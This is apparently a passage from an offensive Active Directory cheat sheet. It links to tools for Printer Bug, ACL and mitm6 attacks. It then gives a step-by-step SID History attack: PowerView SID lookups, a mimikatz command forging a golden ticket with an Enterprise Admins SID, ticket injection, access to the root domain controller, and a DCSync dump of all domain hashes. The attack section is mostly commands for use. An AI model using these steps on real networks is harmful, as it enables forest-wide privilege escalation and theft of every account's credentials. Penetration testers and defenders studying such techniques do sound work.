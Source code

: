 ### Weaponizing Printer Bug

* [Printer Server Bug to Domain Administrator](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
* [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

### Abusing ACLs

* [Escalating privileges with ACLs in Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [aclpwn.py](https://github.com/fox-it/aclpwn.py)
* [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)

### Abusing IPv6 with mitm6

* [Compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [mitm6](https://github.com/fox-it/mitm6)

### SID History Abuse

_If we manage to compromise a child domain of a forest and_ [_SID filtering_](https://www.itprotoday.com/windows-8/sid-filtering) _isn't enabled \(most of the times is not\), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the_ [_SID History_](https://www.itprotoday.com/windows-8/sid-history) _field on a kerberos TGT ticket, that defines the "extra" security groups and privileges._

Exploitation example:

```text
#Get the SID of the Current Domain using PowerView
Get-DomainSID -Domain current.root.domain.local

#Get the SID of the Root Domain using PowerView
Get-DomainSID -Domain root.domain.local

#Create the Enteprise Admins SID
Format: RootDomainSID-519

#Forge "Extra" Golden Ticket using mimikatz
kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi

#Inject the ticket into memory
kerberos::ptt \path\to\ticket\golden.kirbi

#List the DC of the Root Domain
dir \\dc.root.domain.local\C$

#Or DCsync and dump the hashes using mimikatz
lsadump::dcsync /domain:root.domain.local /all
```
